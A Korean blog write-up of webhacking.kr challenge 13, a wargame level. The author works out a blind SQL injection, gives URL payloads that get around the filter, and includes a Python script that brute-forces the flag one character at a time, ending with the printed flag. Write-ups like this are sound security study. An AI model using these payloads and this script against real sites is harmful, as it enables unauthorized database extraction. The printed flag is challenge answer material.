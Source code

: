 ```yaml
---
layout: post
title: ! "[Webhacking.kr] 13"
categories: [Webhacking.kr]
excerpt: <!--more-->
comments: true
share: true
tags:
  - MitNy
  - webhacking.kr
  - Write-up
---
```


webhacking.kr의 최고점(1000) 문제인 13번을 풀어보도록 하겠습니다.

<!--more-->

![]({{ site.baseurl }}/images/mitny/webhackingkr/13.png)

13번 문제는 친절하게도 HINT가 있다. `select flag from prob13password` 로, 컬럼명과 테이블명을 알려준다.
당연하게도 그대로 입력하면 `no hack`이 뜬다!

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_1.png)

1을 입력했을 경우, result : 1 과 같이 테이블처럼 보이는 것이 뜬다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_13.png)

확인 결과 출력되는 것은 result : 1, result : 0, no hack 세 개뿐인 것 같다.
왠지 결과값의 True or False로 확인하는 Blind SQL Injection의 냄새가 난다 ㅎㅎ

flag 컬럼의 row 수를 구하기 위해 아래와 같은 쿼리를 입력한다.

`?no=if((select(count(flag))from(prob13password))in(숫자),1,2)`

prob13password 테이블의 flag 컬럼의 row 수가 in 안의 숫자와 일치하면 no=1, 아니면 no=2가 된다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_count1.png)
![]({{ site.baseurl }}/images/mitny/webhackingkr/13_count2.png)

다른 숫자도 넣어봤을 때 no=2일 때만 result가 참이었으므로 flag 컬럼의 row는 2개인 것을 확인할 수 있다.
데이터가 많지 않으므로 SQL의 min,max 함수를 사용해 데이터들의 최소, 최대 길이를 구할 것이다.
SQL 공부도 할겸 서버에서 직접 테스트 해봤다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_minmax.png)

문제 풀이를 위해 기존에 쓰던 코드를 조금 변형해서 짰다.
```py
# -*- coding : UTF-8 -*-
from requests import get
import string
from time import sleep

url = "http://webhacking.kr/challenge/web/web-10/"
cookies = dict(PHPSESSID="1f70714d3b9c01e58b7a5c6c6c1a08f2")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

ascii_list = []
for i in range(21,126):
        ascii_list.append(chr(i))

for i in range(1,50):
    parameter = "?no=if((select(max(length(flag)))from(prob13password))in("+str(i)+"),1,2)"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("<tr><td>result</td></tr><tr><td>1</td></tr>") > 0:
        length = i + 1
        print("Max data length is "+str(i))
        break

for i in range(1, length):
        for a in string.printable:
                parameter = "?no=(substr((select%0amin(flag)%0afrom%0aprob13password)," + str(i) + ",1)in(" + hex(ord(a)) + "))"
                new_url = url + parameter
                r = get(new_url, cookies=cookies)

                if r.text.find("<td>1</td>") > 0:
                        print(str(i) + " -> "+a)
                        result += a
                        break

                if i == length:
                        print("\npassword is "+result)
                        print("\n")
```

max 데이터의 길이를 구하고, 길이를 구할 때 사용했던 쿼리를 조금 바꿔서  substr을 추가해주었다.
`(substr((select%0amin(flag)%0afrom%0aprob13password),1,1)in(0x66))`

이번 쿼리를 짜면서 헷갈리고 어려웠던 부분은 min과 hex의 사용이었다.
분명 Auth flag는 max 데이터일텐데 왜 select min(flag)를 하며, in(hex)를 사용하는가였다.
hex값과 똑같은 문자를 넣으면 거짓이 떴다.

다른 분들의 풀이를 참고해도 설명이 다 달라서 헷갈린다..ㅎㅎ 이 부분은 더 공부를 해봐야 할 것 같다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_flag.png)

여기서 나온 `challenge13luckclear` 를 Auth 부분에 입력하면 문제가 풀린다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_clear.png)


